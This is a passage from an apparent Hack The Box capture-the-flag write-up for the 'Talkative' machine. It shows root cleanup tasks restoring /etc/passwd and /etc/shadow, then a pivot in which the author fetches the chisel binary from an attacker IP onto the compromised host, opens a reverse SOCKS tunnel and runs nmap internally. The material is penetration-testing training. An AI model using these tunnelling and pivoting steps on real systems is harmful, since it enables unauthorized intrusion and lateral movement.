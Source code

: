2022/06/24 13:54:01 CMD: UID=0    PID=48182  | /bin/sh -c cp /root/.backup/passwd /etc/passwd 
2022/06/24 13:54:01 CMD: UID=0    PID=48184  | /bin/sh -c cp /root/.backup/shadow /etc/shadow 
```
Those are clearly some cleanup tasks from the box creator and definitely worth looking into.

So the take aways are:
* We've got a python script called update_mongo.py
* We've got a backup process that resets /etc/passwd and /etc/shadow
* We still got the rocket.chat application, that we have not touched yet.



### Accessing the MongoDB

I was not able to enumerate the port or docker container that ```mongodb``` is running on, so i used ```chisel``` to gain internal access on the machine so we can run nmap scans internally.

I used this blog post back from my OSCP preparation as guide:
https://ap3x.github.io/posts/pivoting-with-chisel/

Host files on a server:
```
┌──(kali㉿kali)-[~/htb/talkative/serve]
└─$ chmod +x chisel    
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/talkative/serve]
└─$ ./chisel server -p 8083 --reverse
2022/06/24 18:20:33 server: Reverse tunnelling enabled
2022/06/24 18:20:33 server: Fingerprint IFoG26T+jCtJLquFoZd4sHC5YY0Ym0PIi0yrprTXAao=
2022/06/24 18:20:33 server: Listening on http://0.0.0.0:8083
2022/06/24 18:20:57 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

Download to a client:
```
saul@talkative:~$ wget 10.10.14.4/chisel
--2022-06-24 14:17:38--  http://10.10.14.4/chisel
Connecting to 10.10.14.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8077312 (7.7M) [text/plain]
Saving to: ‘chisel’

chisel                                 100%[============================================================================>]   7.70M  3.41MB/s    in 2.3s    

2022-06-24 14:17:40 (3.41 MB/s) - ‘chisel’ saved [8077312/8077312]

saul@talkative:~$ chmod +x ./chisel 
saul@talkative:~$ ./chisel client 10.10.14.4:8083 R:1080:socks
2022/06/24 14:18:27 client: Connecting to ws://10.10.14.4:8083
2022/06/24 14:18:27 client: Connected (Latency 24.293423ms)
```

We can confirm the tunnel working by running a simple ```nmap``` scans via ```proxychains4```:

```
┌──(kali㉿kali)-[~]
└─$ proxychains4 -q nmap 127.0.0.1                                                                                                                    130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-24 18:24 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.076s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp